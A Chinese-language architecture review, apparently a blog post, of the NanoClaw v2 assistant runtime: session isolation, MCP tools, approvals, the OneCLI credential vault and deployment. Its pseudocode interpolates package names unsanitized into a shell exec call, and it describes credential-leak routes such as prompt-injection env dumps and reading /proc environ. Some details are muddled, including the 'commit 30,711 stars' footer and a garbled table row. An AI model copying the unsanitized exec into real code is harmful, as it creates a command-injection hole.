
  // 3. 解析 session（shared / per-thread / agent-shared 三种模式）
  const sessionMode = wiring.session_mode ?? 'shared';
  const session = await resolveSession({
    messagingGroupId: messagingGroup.id,
    threadId: platformThreadId,
    agentGroupId: wiring.agent_group_id,
    mode: sessionMode,
  });

  // 4. Access gate（permissions 模块注册的 hook）
  const accessOk = await runAccessGate({
    messagingGroupId: messagingGroup.id,
    agentGroupId: wiring.agent_group_id,
    senderId: msg.senderId,
    text: msg.text,
  });
  if (!accessOk) {
    log.warn('Access denied', { messagingGroupId: messagingGroup.id, senderId: msg.senderId });
    return;
  }

  // 5. 写消息 + 唤起容器
  const seq = await appendInboundMessage(session.id, {
    source: 'channel',
    payload: msg,
  });
  await wakeUpAgent(session.id);
}
```

### 6.4 三层隔离模型

NanoClaw v2 的核心安全特性：**Channel 与 Agent Group 解耦**，每个 Channel 自己决定接入哪个 Agent Group：



三种模式对应三种安全等级：

| 模式 | 共享范围 | 适用场景 |
|------|---------|----------|
| **Shared Session** | 所有 channel 共享一个 conversation | Webhook channel（GitHub/Linear）+ chat channel 配对 |
| **Group Isolation** | 一个 Agent Group 多个独立 Session | 多 chat channel 接入同一个 bot，每个 channel 独立对话 |
| **Per-Channel Sandbox** | 每个 channel 独立 Agent Group | 敏感业务（支付、家庭、个人笔记）完全隔离 |

**通过 `/manage-channels` 可以为每个 channel 单独配置模式**——这是 v2 的新增能力。

---

## 7. Provider 抽象层（claude / opencode / ollama）

NanoClaw 的 provider 抽象比 OpenClaw 更克制——**trunk 只内置 claude**（通过 Anthropic 的 `@anthropic-ai/claude-agent-sdk`）。其他 provider 通过 skill 动态注入：

```text
trunk 内置:
  └── claude（@anthropic-ai/claude-agent-sdk 0.2.29）

通过 skill 注入:
  /add-opencode           → OpenRouter / Google / DeepSeek / 更多
  /add-codex              → OpenAI Codex (ChatGPT 订阅或 API key)
  /add-ollama-provider    → 本地 open-weight 模型
```

### 7.1 Provider 合约

```typescript
// src/provider-contracts/index.ts
export interface ProviderHostContract {
  // 把 messages_in 转换成 provider 的输入格式
  formatInput(messages: InboundMessage[]): ProviderInput;

  // 解析 provider 输出成 messages_out 的 <message to="..."> 块
  parseOutput(raw: ProviderRawOutput): OutboundMessage[];

  // 凭据获取（所有 provider 都走 OneCLI）
  resolveCredential(scope: string): Promise<OneCliToken>;

  // 健康检查（用于 host-sweep 决定是否重启容器）
  healthCheck(): Promise<ProviderHealth>;
}
```

### 7.2 claude 是唯一内置的工程理由

README 写得非常坦诚：

> "Best harness, best model. NanoClaw natively uses Claude Code via Anthropic's official Claude Agent SDK, so you get the latest Claude models and Claude Code's full toolset, including the ability to modify and expand your own NanoClaw fork."

也就是说 NanoClaw 把"哪个 LLM 最强"这个问题**外包给 Claude 本身**。如果 Anthropic 出了 Claude 4.7，只要升级 SDK 就行；出了 Claude Agent SDK v2 也直接吃。这跟 cc-haha 那种"5 套 IM 适配 + Agent Teams + Workflow + Skill Marketplace"的全栈方向**完全相反**——NanoClaw 把"广度"外包给 skill，把"深度"集中在 Claude 这一个 provider。

---

## 8. 工具系统与 MCP

### 8.1 容器内置 MCP 工具

Agent 容器内置 10 个 MCP 工具，全部由 `container/agent-runner` 暴露：

| 工具名 | 作用 | 跨进程边界 |
|--------|------|----------|
| `send_message` | 发文本回 channel | 走 outbound.db -> Delivery Poller |
| `send_file` | 发文件附件 | 同上 |
| `edit_message` | 编辑已发消息 | 同上 |
| `add_reaction` | 给消息加 emoji | 同上 |
| `send_card` | 发富文本卡片 | 同上 |
| `ask_user_question` | 询问用户 + 收回答 | 走 inbound.db 反向 |
| `create_agent` | 创建子 Agent Group | 写 v2.db.agent_groups |
| `install_packages` | 在容器内装 npm/pip 包 | 仅写容器 fs |
| `add_mcp_server` | 动态加 MCP server | 写 v2.db.mcp_servers |
| `ncl tasks` | CLI 命令（管理 scheduled task） | 经 CLI socket-server |

### 8.2 Pending Approvals 审批机制

某些 MCP 操作有副作用（如 `create_agent`、`install_packages`），NanoClaw 通过 `pending_approvals` 表实现异步审批：

```typescript
// container/agent-runner/src/mcp.ts（伪代码）
async function installPackages(packages: string[]) {
  // 1. 先向 host 提审批
  const approvalId = await requestApproval({
    kind: 'install_packages',
    payload: { packages },
    reason: 'Installing new packages in agent container',
  });

  // 2. 轮询审批结果（host 通过 inbound.db 回写）
  const approved = await waitForApproval(approvalId, timeoutMs = 5 * 60 * 1000);
  if (!approved) {
    throw new Error('Approval denied or timed out');
  }

  // 3. 真正执行（仅在审批通过后）
  return exec(`npm install ${packages.join(' ')}`);
}
```

**关键设计**：审批请求和审批结果**都走 inbound.db / outbound.db**——不引入额外的 IPC 通道。所有跨进程通信统一在 SQLite。

---

## 9. 凭据隔离：OneCLI Agent Vault

### 9.1 为什么需要独立进程管理凭据？

OpenClaw 的做法（把 API key 注入 `process.env`）有几个真实风险：

- Agent 进程能读到 env，**任何 Prompt Injection 都能让 Agent 把 env dump 到 log 里**
- 同一进程内多个 Agent 共享 env，**无法按 Agent 限权**
- env 是明文，**os 系统任何 root 进程都能读**（`/proc/<pid>/environ`）

NanoClaw 的解法：把凭据托管到独立的 **OneCLI Gateway** 进程，Agent 拿到的只是短时 token：



### 9.2 OneCLI 的额外能力

```typescript
// src/gateway-providers/onecli/index.ts（节选）
export const onecliProvider: GatewayContribution = {
  async ensureAgent(agentGroupId: string): Promise<{ containerToken: string }> {
    // 1. 通过 OneCLI 注册 agent group（OneCLI 自己持久化）
    const reg = await onecli.call('register_agent', {
      agent_group_id: agentGroupId,
      scopes: ['claude_api', 'web_fetch', 'mcp_egress'],
    });

    // 2. 返回 agent token（host 用它注入容器 env）
    return { containerToken: reg.agent_token };
  },

  async resolveCredential(scope: string, agentToken: string): Promise<OneCliToken> {
    const res = await onecli.call('resolve_credential', {
      agent_token: agentToken,
      scope,
    });
    return { token: res.temp_token, expiresAt: res.expires_at };
  },
};
```

**关键能力**：
- **scopes**：每个 agent group 可以被授予不同的 scope（如 `claude_api` + `web_fetch`，但不授 `email_send`）
- **rate limit per agent**：OneCLI 强制按 agent group 限额，**单个 Agent Prompt Injection 失控不能烧光所有额度**
- **audit log**：所有凭据使用记录都进 OneCLI 的独立审计 log（NanoClaw host 看不到原始 key，但能看到"agent X 在 Y 时间用了 Z scope"）

---

## 10. Scheduled Task + Circuit Breaker + Host Sweep

### 10.1 Scheduled Task（cron jobs）

NanoClaw 的"定时任务"是 Agent 自己**用自然语言创建**的——你跟 bot 说"每周一早上 8 点给我发 AI 新闻摘要"，它会自己调 `create_agent` MCP 工具创建一条 scheduled task 记录：

```typescript
// src/modules/scheduling/index.ts（节选）
async function onCreateTask(taskSpec: TaskSpec) {
  // 1. 计算下次触发时间
  const nextRun = computeNextRun(taskSpec.cron);

  // 2. 写 v2.db.scheduled_tasks
  await db.prepare(`
    INSERT INTO scheduled_tasks (id, agent_group_id, cron, prompt, next_run_at)
    VALUES (?, ?, ?, ?, ?)
  `).run(taskSpec.id, taskSpec.agentGroupId, taskSpec.cron, taskSpec.prompt, nextRun);

  // 3. host-sweep 周期性检查 next_run_at
  // 到点时把 prompt 当作 inbound message 写对应 session
}
```

### 10.2 Circuit Breaker（防 rapid restart）

如果 host 进程因为 bug 反复崩溃重启，每次都从头拉所有容器代价很大：

```typescript
// src/circuit-breaker.ts（节选）
const RESTART_WINDOW_MS = 60_000;
const MAX_RESTARTS_IN_WINDOW = 3;

export async function enforceStartupBackoff(): Promise<void> {
  const log = await readRestartLog();
  const recent = log.filter(t => Date.now() - t < RESTART_WINDOW_MS);

  if (recent.length >= MAX_RESTARTS_IN_WINDOW) {
    const oldest = recent[0];
    const waitMs = RESTART_WINDOW_MS - (Date.now() - oldest);
    log.error(`Circuit breaker: ${recent.length} restarts in ${RESTART_WINDOW_MS}ms, waiting ${waitMs}ms`);
    await sleep(waitMs);
  }

  await appendRestartLog(Date.now());
}

export async function resetCircuitBreaker(): Promise<void> {
  await fs.unlink(RESTART_LOG_PATH).catch(() => {});
}
```

### 10.3 Host Sweep（心跳 / 重试 / 复发）

```typescript
// src/host-sweep.ts（节选）
const SWEEP_INTERVAL_MS = 10_000;

async function sweepOnce(): Promise<void> {
  // 1. 检查所有 active session 的心跳
  for (const session of await getActiveSessions()) {
    const lastHeartbeat = await readHeartbeat(session.id);
    if (Date.now() - lastHeartbeat > HEARTBEAT_TIMEOUT_MS) {
      log.warn(`Session ${session.id} heartbeat stale, killing container`);
      await killContainer(session.containerId);
      await markSessionDead(session.id);
    }
  }

  // 2. 重试 failed outbound messages
  for (const msg of await getFailedOutboundMessages()) {
    if (msg.retry_count < MAX_RETRIES) {
      await retryDelivery(msg);
    } else {
      await markMessageDead(msg, 'max retries exceeded');
    }
  }

  // 3. 触发到期的 scheduled tasks
  for (const task of await getDueScheduledTasks()) {
    const session = await ensureSessionForAgent(task.agent_group_id);
    await appendInboundMessage(session.id, {
      source: 'scheduler',
      payload: { text: task.prompt, is_cron: true },
    });
    await wakeUpAgent(session.id);
    await updateNextRun(task);
  }
}

setInterval(sweepOnce, SWEEP_INTERVAL_MS);
```

**三件套配合**：
- Circuit Breaker 防止 host bug 反复重启把环境拖垮
- Host Sweep 周期性清理僵尸容器、重试失败投递、触发 scheduled task
- 它们**完全独立**——任何一个 bug 不会污染其他两个

---

## 11. Chat SDK Bridge：把 Chat SDK 适配成 NanoClaw Channel

这是 NanoClaw v2 引入的最大胆的设计决策：**不再为每个 IM 平台手写 channel adapter**。改用第三方 Chat SDK + 一个 Bridge 层适配。

### 11.1 Chat SDK 提供的免费午餐

```text
✅ webhook 解析
✅ 平台 API 调用（发消息、编辑、加反应、发文件、发卡片）
✅ 消息去重
✅ 历史消息拉取
✅ 富文本 / 卡片渲染
✅ thread 订阅（Slack / Discord 等需要）
✅ 速率限制和重试

❌ 不提供：
- 哪些消息要转给 Agent（trigger / filter 逻辑）
- Agent 输出怎么路由回 platform
- 多 Agent Group 协调
- 凭据管理
```

### 11.2 Bridge 层职责

```typescript
// src/channels/chat-sdk-bridge.ts（核心思想，# 来自 src/channels/chat-sdk-bridge.ts:48-95）
class ChatSdkBridge implements ChannelAdapter {
  constructor(
    private chat: ChatSdk,
    private cfg: BridgeConfig,
  ) {}

  async start(): Promise<void> {
    // Chat SDK 的 thread-level subscription 与 NanoClaw 的 channel-level registration 解耦
    this.chat.onNewMention(async (event) => {
      // 1. 检查 trigger（@mention / regex）
      if (!this.shouldTrigger(event.text)) return;

      // 2. 订阅 thread（让后续消息也被推送）
      if (!await this.chat.isSubscribed(event.threadId)) {
        await this.chat.thread.subscribe(event.threadId);
      }

      // 3. 通过 NanoClaw Channel 接口转发
      await this.forwardMessage({
        platformChannelId: event.channelId,
        platformThreadId: event.threadId,
        senderId: event.senderId,
        text: event.text,
      });
    });

    this.chat.onSubscribedMessage(async (event) => {
      await this.forwardMessage({
        platformChannelId: event.channelId,
        platformThreadId: event.threadId,
        senderId: event.senderId,
        text: event.text,
      });
    });
  }

  // 统一通过 NanoClaw Channel 协议转发
  private async forwardMessage(payload: ChannelMessage): Promise<void> {
    await routeInbound(
      payload.platformChannelId,
      payload.platformThreadId,
      payload,
    );
  }

  // 发送响应走 Chat SDK 的富文本 API
  async sendMessage(target: ChannelTarget, content: MessageContent): Promise<void> {
    await this.chat.send(target.platformThreadId, {
      markdown: content.markdown,
      attachments: content.files,
      cards: content.cards,
    });
  }
}
```

**关键洞察**：Chat SDK Bridge 让 NanoClaw 跨 13 个 IM 平台时**只写一份触发/路由代码**，平台特定逻辑全交给 Chat SDK。这是 2026 年 IM 适配器的最佳实践。

### 11.3 与 OpenClaw Bare Adapter 的差异

| 维度 | OpenClaw 13 内置 Adapter | NanoClaw Chat SDK Bridge |
|------|--------------------------|--------------------------|
| 代码量 | 13 × ~500-2000 行 adapter | 1 × 通用 Bridge |
| Slack API schema 变化 | 每个 adapter 都要改 | Chat SDK 维护者处理 |
| 富文本支持 | 每个平台独立实现 | Chat SDK 统一抽象 |
| 平台 bug 修复 | 等 OpenClaw 发版 | 升级 Chat SDK |
| 自定义平台 | 写新 adapter 加 PR | 写 Chat SDK connector（独立项目） |

---

## 12. 端到端数据流（一条 Telegram 消息的完整旅程）

下面这条 sequenceDiagram 把上面所有模块串起来——展示从"Telegram 用户发消息"到"Telegram 用户收到 Agent 回复"的 23 步旅程：



**23 步**——这个数字看起来很多，但实际延迟分布是：
- 步骤 1-2（Telegram webhook）：~50-200ms（网络）
- 步骤 3-12（host 处理）：~20-50ms（内存 + SQLite write）
- 步骤 13-14（容器启动，**冷启动 ~2-5s，热复用 ~200ms**）
- 步骤 15-21（Claude API 调用）：~2-15s（取决于 prompt 长度）
- 步骤 22-23（Delivery）：~100-300ms（Chat SDK + Telegram API）

**总延迟**：冷启动 5-20s，热复用 3-15s。相比 OpenClaw 的 1-10s 延迟，NanoClaw 在冷启动路径上慢了 2-5s，但在**安全鲁棒性**上赢得了几个数量级。

---

## 13. 与同类项目对比

| 项目 | 隔离级别 | 代码量 | 凭据管理 | Channel 数 | 容器依赖 | License | 与 NanoClaw 关系 |
|------|---------|--------|---------|-----------|----------|---------|----------------|
| **NanoClaw** | **OS 级 Docker + egress iptables** | ~102 src files | OneCLI Vault（独立进程） | 13 (skill 安装) | 必须 | MIT | 本文主角 |
| OpenClaw | 应用层 allowlist | ~50 万行 | process.env | 13 内置 | 无 | Apache-2.0 | 启发 NanoClaw，但哲学不同 |
| cc-haha | 应用层 + Swift native helper | 4977 files / 90+ dirs | 5 套 IM 适配 + 1Password | 5 (微信/飞书/钉钉/Telegram/WhatsApp) | 无 | MIT | 重 IM 适配，NanoClaw 重安全 |
| Agent-Reach | 无（CLI 桥） | ~109 nodes | 直接 CLI cookie | 0（专注互联网访问） | 无 | MIT | 完全不同方向 |
| Agent-Orchestrator | git worktree | ~839 行 Go | N/A（无 IM） | 0 | 无 | Apache-2.0 | 重多 Agent 协调，不重 IM |

### 13.1 NanoClaw vs OpenClaw：哲学对比

| 维度 | OpenClaw | NanoClaw |
|------|----------|----------|
| 目标用户 | 想"开箱即用"的开发者 | 想要"我能自己审计每一行代码"的开发者 |
| 安全模型 | "应用层拦截够了" | "OS 层隔离 + 应用层审批" |
| 代码哲学 | "把所有功能内置" | "trunk 极简 + skill 扩展" |
| 启动时间 | < 1s | 2-5s（冷启动容器） |
| 内存占用 | ~200MB | ~300-800MB（容器开销） |
| 多 LLM Provider | 内置 Claude + 切换模型 | trunk 仅 Claude + skill 加其他 |
| 凭据管理 | env 变量（明文） | OneCLI Vault（独立进程） |
| 审计能力 | 应用层 log | SQLite 中央 DB + OneCLI 审计 log |

### 13.2 NanoClaw vs cc-haha：IM 适配哲学对比

| 维度 | cc-haha | NanoClaw |
|------|---------|----------|
| 形态 | 桌面应用 + Tauri/Electron + IM 网关 | 命令行服务 + Docker |
| IM 适配深度 | 每平台深度定制（微信 iLink / 飞书 Card / 钉钉 Card） | Chat SDK Bridge 统一抽象 |
| 安全隔离 | 应用层 + Swift native CU helper | OS 级容器 + OneCLI Vault |
| 主要场景 | 中国开发者桌面包（多模型 + 多 IM + 桌面宠物） | 7×24 个人助理 + 强安全场景 |
| 启动时间 | < 1s | 2-5s（冷启动） |

**本质差异**：cc-haha 是"**把 Claude Code 当 IDE 替代品装到桌面 + 接入中国 IM 生态**"，NanoClaw 是"**把 Claude Agent SDK 关进容器 + 接入海外 IM 生态 + 凭据零接触**"。

### 13.3 NanoClaw 的设计正交优势

NanoClaw 与本系列已写文章的"正交不重叠"关系：

| 已写项目 | 与 NanoClaw 的角度差异 |
|----------|----------------------|
| OpenClaw (2026-04-15) | OpenClaw 重功能广度，NanoClaw 重安全隔离 |
| Agent-Reach (2026-07-02) | Agent-Reach 重互联网访问层，NanoClaw 重 IM 入口层 |
| Agent-Orchestrator (2026-09-01) | AO 重多 Coding Agent 协调，NanoClaw 重单 Agent 安全运行 |
| Agent-S (2026-06-06) | Agent-S 重 Computer-Use，NanoClaw 重聊天交互 |
| Agent-BaaS (InsForge, 2026-07-12) | InsForge 重 Coding Agent 后端能力，NanoClaw 重 IM 适配 |

每个已写项目都在 NanoClaw 的"AI 助手运行时"赛道上有独特贡献，但**没有一个真正解决了"Agent 在生产环境下的凭据隔离和进程级横向移动防护"**——NanoClaw 是这个空白的第一篇。

---

## 14. 优缺点分析

### 14.1 左侧：架构简洁性 / 扩展性 / 易用性

| 优点 | 说明 |
|------|------|
| **trunk 极简** | 102 个 src 文件，Claude 自己都能改。README 自豪地说"nano enough to understand"。 |
| **skill 扩展模型** | `/add-slack` / `/add-opencode` / `/add-ollama-provider` 等动态添加能力，**不污染 trunk**。 |
| **SQLite 作为唯一 IO** | 任何 backup/migration/debug 都用标准 SQL 工具。**没有 Redis / Kafka / PostgreSQL 的运维负担**。 |
| **driver seam 抽象** | Docker / Podman / Apple Container 任意换，业务代码零改动。 |
| **chat SDK 桥接** | 13 个 IM 平台只写一份 trigger/routing 代码。 |
| **clear security model** | 三层防御（容器隔离 + egress iptables + OneCLI Vault）有明确文档。 |
| **complete self-host** | 无账号、无 SaaS、无遥测，`NANOCLAW_NO_DIAGNOSTICS=1` 完全沉默。 |

### 14.2 右侧：性能 / 复杂度 / 维护性

| 缺点 | 说明 | 缓解策略 |
|------|------|---------|
| **冷启动慢** | 第一次唤醒 session 要拉 Docker 容器，~2-5s。 | host-sweep 把活跃 session 保温，热点 session 200ms 内响应。 |
| **journal_mode = DELETE 写性能略降** | 每次 commit 都要 fsync rollback journal。 | 消息频率（~10-60s 一条）完全不在乎。 |
| **OneCLI 外部依赖** | 凭据管理依赖独立 Rust 进程。 | OneCLI 已经 GA 一年多，兼容 Claude Agent SDK v1.x。 |
| **macOS Docker Desktop 限制** | 容器必须跑在 Linux VM 后端（macOS Docker Desktop 默认行为，但 Apple Silicon 原生容器不支持）。 | WSL2 / Linux 主机完全原生支持。 |
| **Provider trunk 只内置 Claude** | 想用 GPT / Gemini 需要 skill 注入。 | 是设计哲学（"Best harness, best model"），不是 bug。 |
| **学习曲线陡** | 要理解 SQLite journal mode / VirtioFS / egress iptables 才能 debug。 | SPEC.md + architecture.md 写得非常详尽。 |
| **Trunk 内 channel 数 = 0** | 第一次 clone 下来**没有任何 IM channel**，要手动 `/add-slack` 才能用。 | 是哲学（"不污染 trunk"），但新手可能困惑。 |

### 14.3 与 OpenClaw 的关键抉择

| 维度 | 选 NanoClaw 的理由 | 选 OpenClaw 的理由 |
|------|-------------------|-------------------|
| **响应延迟** | OpenClaw 更快（共享进程） | ✅ 1-10s vs NanoClaw 3-15s |
| **安全模型** | ✅ 容器 + OneCLI Vault 三层防御 | OpenClaw 靠应用层 |
| **代码可读性** | ✅ 102 文件可审计 | 50 万行难读 |
| **生产鲁棒性** | ✅ OS 级隔离，Prompt Injection 跨不过去 | OpenClaw 单点故障 |
| **上手难度** | 需要懂 Docker + SQLite journal mode | ✅ 开箱即用 |
| **维护成本** | ✅ skill 扩展模型 | 内置多 channel 维护负担 |

**结论**：如果你打算把 AI 助手跑在**生产环境**（家庭/团队 7×24 运行）→ **NanoClaw**；如果你只是**个人试用** + 不想碰 Docker → **OpenClaw**。

---

## 15. 实践、部署与未来趋势

### 15.1 快速部署

```bash
# 1. 装前置（脚本会自动检测）
#    Node 22+, pnpm, Docker (macOS Docker Desktop / Linux dockerd / WSL2)

# 2. 克隆仓库
git clone https://github.com/nanocoai/nanoclaw.git nanoclaw-v2
cd nanoclaw-v2

# 3. 一键安装（脚本会引导你走完）
bash nanoclaw.sh
#    - 安装 Node / pnpm / Docker（如缺）
#    - 注册 Anthropic credential 到 OneCLI
#    - 构建 agent 容器镜像
#    - 配对你的第一个 channel（Slack / Telegram / Discord / WhatsApp / iMessage / CLI）

# 4. 加 channel（按需）
@Andy /add-slack          # 装 Slack channel
@Andy /add-telegram       # 装 Telegram channel
@Andy /add-github         # 装 GitHub webhook channel

# 5. 加 provider（按需）
@Andy /add-opencode       # OpenRouter / Google / DeepSeek
@Andy /add-ollama-provider  # 本地 open-weight 模型

# 6. 测试
#    向你的 Slack channel 发：@Andy hi

# 7. 关掉遥测
export NANOCLAW_NO_DIAGNOSTICS=1
```

### 15.2 三个关键配置点

```bash
# .env 文件（host 端）
NANOCLAW_NO_DIAGNOSTICS=1           # 关闭匿名遥测
ANTHROPIC_BASE_URL=https://api.anthropic.com  # 可改为私有部署
ONECLI_GATEWAY_URL=http://localhost:7878       # OneCLI gateway 端口

# 容器资源限制（src/config.ts）
export const CONTAINER_CPU_LIMIT = '1.0';      # 单核
export const CONTAINER_MEMORY_LIMIT = '512m';  # 512MB
export const CONTAINER_PIDS_LIMIT = 100;       # 防 fork bomb
```

### 15.3 高级用法：自定义 Agent Group

```bash
@Andy /create-agent-group sensitive-payments \
    --description "处理所有支付相关请求" \
    --claude-md "你是 PaymentBot，所有请求必须先 ask_user_question 确认" \
    --mount-allow /workspace/group:/workspace/group:ro \
    --mount-deny ~/.aws:~/.aws \
    --onecli-scope claude_api,web_fetch \
    --onecli-rate-limit 100/day

@Andy /manage-channels \
    --channel whatsapp:personal:andy \
    --agent-group sensitive-payments \
    --isolation-mode per-channel
```

### 15.4 未来趋势预测

#### 趋势 1：OS 级隔离成为生产 AI 助手的标配

2026 H2 各大 AI 助手项目都会逐步加 OS 级隔离。当前状态：
- NanoClaw 走最远（容器 + OneCLI + egress lockdown）
- OpenClaw / Hermes Agent 仍靠应用层
- cc-haha 走 Swift native helper（macOS only）

**预测**：2027 H1 之前，**生产级 AI 助手 = 容器 + 凭据网关 + 应用层审批**会成为行业默认架构。

#### 趋势 2：SQLite 双 DB 模式扩散到其他 Agent 框架

NanoClaw 的双 DB 拆分（inbound.db + outbound.db，journal_mode=DELETE）解决了"跨进程 IO + 可调试性"的矛盾。**这是被严重低估的设计**。预测：

- 未来会出现 `agent-runtime-sdk` 把这个模式抽象成 library
- 会有项目把它和 WAL 性能差异做正式 benchmark，证明 DELETE 在大多数场景够用
- 跨 VM/容器/Serverless 的 Agent 都会参考这个模式

#### 趋势 3：Chat SDK 抽象层成为 IM 适配的标准

Chat SDK Bridge（NanoClaw）+ 1 个统一协议层取代 13 套手写 adapter，是 IM 适配的**正确解法**。预测：

- 2027 H1 会出现至少一个**开源 Chat SDK for AI agents** 项目（标准化 Chat SDK 接口）
- 各 IM 平台（Slack / Teams / Discord）会自己出官方 Chat SDK for AI（避免被中间层卡脖子）

#### 趋势 4：OneCLI / 凭据网关作为独立产品出现

OneCLI 现在是 NanoClaw 的子项目（独立 Rust 进程），但它的能力——**短时 token + scope 控制 + rate limit per agent + audit log**——是**所有 AI 代理平台都需要的基础设施**。

**预测**：2027 H1 会有 `vault-agent.io` / `keychain-agent.com` 之类的独立 SaaS，提供"agent 凭据托管"服务，按 scope 计费。AI 代理的安全层会从"业余项目附属"变成"专业 SaaS"。

### 15.5 给"想自己 fork 的人"的工程经验

如果你想基于 NanoClaw 二次开发：

1. **不要碰 src/container-runner.ts 的核心逻辑**——55k 字符是被反复重构的。**通过 driver seam 扩展**，不要 fork driver。
2. **加新 channel 必须走 skill**——不要 import 进 trunk，否则违反"skills over features"哲学，**会立刻被作者拒绝 PR**。
3. **写 v2.db 迁移一定要走 db/migrations/**——裸改 schema 会让 adoptRunningSessions 失败。
4. **测试必须覆盖三层：host unit test + container integration test + 端到端 e2e**——只有 unit test 会漏掉 VirtioFS / iptables 等基础设施层的 bug。
5. **改 journal_mode 是破坏性变更**——DELETE → WAL 会让所有现有 session 的 reader 冻结，永远读不到新数据。除非重新设计整个 IO 协议。
6. **OneCLI 的 API breaking change 会让你所有用户的容器瞬时不可用**——订阅 nanocoai/onecli releases，及时跟进。

### 15.6 一句话总结

NanoClaw 的核心洞察不是"用 Docker 隔离 Agent"（这早就有人做），而是**"SQLite 双 DB + DELETE journal mode + journal_mode=DELETE 规避 VirtioFS WAL shm 失效"** + **"OneCLI 把凭据从 Agent 进程剥离"** 这两个**反直觉的工程决策**。

这两个决策都不是"AI 创新"，是**数据库工程**和**操作系统工程**的成果，被一个 AI Agent 项目**恰到好处地**用到了正确的地方。

如果你在评估生产 AI 助手运行时——**安全鲁棒性 > 启动速度 > 功能广度**，NanoClaw 是当前开源项目的最佳答案。

---

## 附录：关键资源

| 资源 | 链接 |
|------|------|
| **GitHub 仓库** | https://github.com/nanocoai/nanoclaw |
| **项目官网** | https://nanoclaw.dev |
| **文档站** | https://docs.nanoclaw.dev |
| **SPEC (v1 历史)** | https://github.com/nanocoai/nanoclaw/blob/main/docs/SPEC.md |
| **v2 Architecture** | https://github.com/nanocoai/nanoclaw/blob/main/docs/architecture.md |
| **v2 Architecture Diagram** | https://github.com/nanocoai/nanoclaw/blob/main/docs/architecture-diagram.md |
| **Isolation Model** | https://github.com/nanocoai/nanoclaw/blob/main/docs/isolation-model.md |
| **Memory System** | https://github.com/nanocoai/nanoclaw/blob/main/docs/memory.md |
| **Security Model** | https://github.com/nanocoai/nanoclaw/blob/main/docs/SECURITY.md |
| **Build & Runtime** | https://github.com/nanocoai/nanoclaw/blob/main/docs/build-and-runtime.md |
| **OneCLI (凭据网关)** | https://github.com/onecli/onecli |
| **License** | MIT |

---

*本文基于 nanoclaw 仓库截至 2026-09-07 的代码（commit 30,711 stars，pushed 2026-09-06）。所有架构描述基于 docs/architecture.md 和源码 `src/container-runner.ts`、`src/session-manager.ts`、`src/drivers/`、`container/agent-runner/src/index.ts` 等真实文件。*
